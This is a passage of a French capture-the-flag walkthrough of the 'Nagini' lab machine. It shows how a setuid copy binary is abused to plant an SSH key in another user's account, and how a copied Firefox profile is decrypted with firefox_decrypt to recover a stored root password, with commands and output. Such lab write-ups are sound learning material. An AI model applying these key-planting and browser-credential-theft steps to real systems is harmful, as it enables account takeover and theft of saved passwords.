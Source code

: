 Il est possible d'utiliser ce même exécutable pour ajouter notre clé publique SSH aux clés autorisées :  

```plain
snape@Nagini:/tmp$ ~hermoine/bin/su_cp authorized_keys ~hermoine/.ssh/
snape@Nagini:/tmp$ ls -al  ~hermoine/.ssh/
total 12
drwxr-xr-x 2 hermoine hermoine 4096 Nov 27 22:31 .
drwxr-xr-x 6 hermoine hermoine 4096 Apr  4  2021 ..
-rw-r----- 1 hermoine snape     725 Nov 27 22:31 authorized_keys
```

I know what you did
-------------------

On ne trouve pas plus d'indices classiques pouvant mener à de l'escalade de privilèges. En revanche l'utilisatrice a un dossier *.mozilla/firefox* ce qui est un peu étrange pour une machine qui n'a pas d'interface graphique...  

Je rapatrie le dossier via scp et je lance [firefox\_decrypt](https://github.com/Unode/firefox_decrypt) dessus :  

```plain
$ python3 firefox_decrypt.py firefox/
Traceback (most recent call last):
  File "firefox_decrypt.py", line 46, in <module>
    PWStore = list[dict[str, str]]
TypeError: 'type' object is not subscriptable
```

Un petit fix et une [pull request](https://github.com/unode/firefox_decrypt/pull/78/files) plus tard :

```plain
$ python3 firefox_decrypt.py firefox/

Website:   http://nagini.hogwarts
Username: 'root'
Password: '@Alohomora#123'
```

Ce qui permet l'accès root et la récupération du dernier horcrux :  

```plain
# cat horcrux3.txt 
  ____                            _         _       _   _                 
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___ 
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \____\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                  |___/                                                   

Machine Author: Mansoor R (@time4ster)
Machine Difficulty: Medium
Machine Name: Nagini
Horcruxes Hidden in this VM: 3 horcruxes

You have successfully pwned Nagini machine.
Here is your third hocrux: horcrux_{NTogRGlhZGVtIG9mIFJhdmVuY2xhdyBkZXN0cm95ZWQgYnkgSGFycnk=}
```

Groovy !  


*Published November 28 2021 at 17:29*
